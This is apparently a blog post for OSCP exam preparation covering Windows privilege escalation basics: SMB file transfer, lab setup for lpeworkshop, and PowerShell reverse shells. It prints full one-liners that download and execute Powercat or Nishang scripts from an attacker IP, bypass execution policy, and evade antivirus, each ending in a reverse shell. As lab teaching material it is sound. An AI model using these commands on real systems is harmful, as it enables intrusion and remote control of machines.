 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbshare.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare1.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net use`:
	- Mount your `myshare` as drive `Z` (or any other letter) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` and deleted with `net use Z: /delete` once you are done with it.   
{: .text-justify}

Another easy way to transfer files is over http using python's SimpleHTTPServer or Apache. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## Upgrading to PowerShell from cmd

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Three of the most useful modules that I came across were: [Powercat](https://github.com/besimorhino/powercat), [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
{: .text-justify}

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation modules.
{: .text-justify}

In short, we need to execute either `Powercat.ps1` or `Invoke-PowerShellTcp.ps1` on victim to get an interactive PowerShell.
There are two methods to do this:
1. Download and Invoke the modules over HTTP: Using this method, we will download the modules to memory and invoke them without touching the disk. This can help us evade Windows Antivirus.
2. Invoke the modules locally: This method can be used to invoke the ps1 modules when you have local access to those modules on  victim system. Since we are executing the modules from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
{: .text-justify}

## Method 1: Download and Invoke the modules over HTTP (Evades Windows AV)

As a general example, we can download and execute any file on the victim using following steps:  
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Reverse shell using Powercat

1. Start python's `SimpleHTTPServer` and copy the `Powercat.ps1` to that directory.   
![image-center](/assets/images/oscp/1/pcat1.png)
2. Start netcat listener on your Kali (prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Powercat.ps1'));powercat -c <IP> -p <Port> -ep"`   
![image-center](/assets/images/oscp/1/pcat2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/pcat3.png) 
{: .text-justify}

### Reverse shell using Invoke-PowerShellTcp.ps1

1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali.
3. On the victim: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
{: .text-justify}

### Command breakdown
  
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : Currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting. This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : Specify a command to be executed.
- Bonus: you can append the the execution command to your `ps1` module and avoid one extra step.  
Example for `Invoke-PowerShellTcp.ps1`:
![image-center](/assets/images/oscp/1/Invoke-ps1.png)
This way, your final command for reverse shell would just be downloading and auto-invoking the module, you don't have to pass the arguments anymore.  
Final command:   `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}

An important thing to keep in mind is that both Powercat and Nishang modules are not just limited to reverse shells but also provide a lot of other useful functionality. Now that we know how to execute these modules, you should further look at the additional features and decide which benefit you the most.
{: .text-justify}

## Method 2: Invoking modules locally: using SMB (Gets blocked by Windows AV)

This method can be used to invoke ps1 modules locally on your victim system. Since we are executing the scripts from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. We will take a look at how to send reverse PowerShell using Invoke-PowerShellTcp.ps1:  
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver. 
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---

## lpeworkshop

For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. A few exercises will not be setup (1,9,11,13) as those are platform specific and are not included in the setup script.
{: .text-justify}

In the next part, we will go through the exercises from lpeworkshop and see how we can identify and exploit the vulnerabilties with the help of `PowerUp.ps1` 
{: .text-justify}

---
## Additional resources

- [Windows PrivEsc using powershell](https://hacknpentest.com/windows-privilege-escalation-using-powershell/)
- [lpeworkshop walkthrough by J3rryBl4nks](https://github.com/J3rryBl4nks/LPEWalkthrough)